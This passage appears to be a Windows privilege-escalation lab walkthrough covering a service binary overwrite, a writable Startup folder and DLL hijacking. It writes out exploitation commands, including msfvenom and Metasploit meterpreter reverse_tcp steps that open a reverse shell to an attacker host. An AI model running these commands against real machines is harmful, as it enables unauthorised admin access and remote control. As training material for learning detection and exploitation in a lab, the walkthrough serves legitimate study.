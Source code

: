 ### Exploitation
Windows VM
1. Open command prompt and type: copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
2. In command prompt type: sc start filepermsvc
3.  It is possible to confirm that the user was added to the local  administrators group by typing the following in the command prompt: net localgroup administrators

---
## Startup Applications
### Detection 
Windows VM
1. Open command prompt and type: icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
2. From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory.
### Exploitation
Kali VM
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open another command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe
7. Copy the generated file, x.exe, to the Windows VM.
Windows VM
1. Place x.exe in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.
2. Logoff.
3. Login with the administrator account credentials.
Kali VM
1. Wait for a session to be created, it may take a few seconds.
2. In Meterpreter(meterpreter > prompt) type: getuid
3. From the output, notice the user is “User-PC\Admin”

---
## DLL Hijacking
### Detection
Windows VM
1. Open the Tools folder that is located on the desktop and then go the Process Monitor folder.
2. In reality, executables would be copied from the victim’s host over to  the attacker’s host for analysis during run time. Alternatively, the  same software can be installed on the attacker’s host for analysis, in  case they can obtain it. To simulate this, right click on Procmon.exe  and select ‘Run as administrator’ from the menu.
3. In procmon, select "filter".  From the left-most drop down menu, select ‘Process Name’.
4. In the input box on the same line type: dllhijackservice.exe
5. Make sure the line reads “Process Name is dllhijackservice.exe then  Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.
6. Next, select from the left-most drop down menu ‘Result’.
7. In the input box on the same line type: NAME NOT FOUND
8. Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.
9. Open command prompt and type: sc start dllsvc
10. Scroll to the bottom of the window. One of the highlighted results  shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it  could not do that as the file was not found. Note that ‘C:\Temp’ is a  writable location.
### Exploitation
Windows VM
1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_dll.c’ to the Kali VM.
